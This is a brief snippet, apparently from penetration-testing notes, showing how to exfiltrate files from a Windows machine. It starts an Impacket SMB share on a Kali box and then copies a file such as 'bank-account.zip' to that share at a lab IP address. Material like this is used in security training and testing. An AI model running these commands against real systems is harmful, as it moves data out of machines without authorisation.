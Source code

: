 # 1) On Kali Box (Open SMB server and destination in /tmp/ folder)
python3 smbserver.py ROPNOP /tmp/

# 2) On Windows Machine:
copy C:\<path>\file \\<destination_ip>\ROPNOP
e.g. copy C:\bank-account.zip \\192.168.119.158\ROPNOP